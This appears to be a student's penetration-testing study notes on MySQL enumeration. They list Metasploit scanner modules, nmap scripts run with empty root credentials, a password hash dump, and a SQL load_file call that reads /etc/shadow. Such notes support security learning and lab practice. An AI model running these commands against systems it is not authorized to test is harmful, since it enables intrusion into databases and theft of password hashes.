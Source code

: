 <r>msfconcole</r>
+ <g>robots_txt</g>
  + `use auxiliary/scanner/http/robots_txt`
  + will show what is allowed and disallowed

## SQL Lesson ##

### MySQL ###

The most common open database that runs on some kind of linux 
+ Very often misconfigured and vulnerable 

Can login using the `mysql` keyword
+ Example: `mysql -h 192.94.79.3 -u root`
  + where root is the most common 
+ can look at the databases with a `show databases;`
+ can dig into each database by using `use DBNAME`
  + in there can see tables with `show tables`
+ can dig into a table with `select * from TABLENAME`
+ can get a file via `select load_file("/etc/shadow");`
  + notice the above is `etc/shadow` which will have info about users and services

<r>msfconcole</r>
+ <g>mysql_writeable_dirs</g>
  + use use auxiliary/scanner/mysql/mysql_writable_dirs`
    + will want to `set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt`
    + and `setg rhost IP` to make a global rhost`
    + can also `set verbose false`
    + `set password ""`
  + Will show what directories can be written to
+ <g>mysql_hashdump</g>
  + use auxiliary/scanner/mysql/mysql_hashdump`
  + Will give a lot of hashes for different users

<o>--script=mysql_empty-password</o>
+ A nmap script to see if there are any empty passwords accounts
+ Example: `nmap IP -p 3306 --script=mysql_empty-password`

<o>--script=mysql-info</o>
+ Gets info like version number, capabilities
+ Example: `nmap IP -p 3306 --script=mysql-info`

<o>--script=mysql-users</o>
+ Gets users 
+ Example: `nmap IP -p 3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"`

<o>--script=mysql-databases</o>
+ See available databases
+ Example: `nmap IP -p 3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"`

<o>--script=mysql-variables</o>
+ See how to interact with it, most usefully is data directory to see where the variables are being stored `datadir:`
+ Example: `nmap IP -p 3306 --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''"`
